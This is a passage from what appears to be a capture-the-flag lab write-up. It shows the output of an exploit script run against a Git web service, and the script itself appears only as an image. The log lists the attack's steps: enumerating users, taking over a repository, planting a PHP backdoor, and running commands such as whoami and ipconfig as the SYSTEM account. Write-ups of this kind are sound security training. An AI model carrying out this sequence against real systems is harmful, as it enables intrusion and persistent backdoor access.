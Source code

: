 ![IP and command can be changed to use this exploit](image-4.png)

The execution of this script gives the following result:
```
# command: whoami
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
...
[+] Execute command
"nt authority\system
" 

# command: ipconfig
"
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::e90a:8b34:8e17:6c3%6
   IPv4 Address. . . . . . . . . . . : 10.200.105.150
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.200.105.1
" 
```
